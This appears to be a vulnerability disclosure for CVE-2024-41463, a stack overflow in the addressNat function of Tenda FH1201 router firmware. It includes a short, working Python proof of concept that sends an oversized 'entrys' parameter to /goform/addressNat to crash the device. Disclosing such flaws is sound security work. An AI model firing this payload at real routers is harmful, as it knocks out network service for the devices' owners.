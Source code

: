 # addressNat

Firmware download website:https://www.tendacn.com/download/detail-3322.html

### CVE number

CVE-2024-41463

### Vulnerability details

Tenda FH1201 v1.2.0.14 has a stack overflow vulnerability located in the addressNat function.The parameter entrys is copied to stackspace v6 via the sprintf function without checking the length,so an attacker can cause a denial of service attack by controlling the page parameter

![image-20240724095512087](./image-20240724095512087.png)

### poc

```python
import requests

ip = '192.168.74.145'

url = f"http://{ip}/goform/addressNat"

data = {"entrys": "a"*999}

ret = requests.post(url, data)

```

![image-20240724095607594](./image-20240724095607594.png)

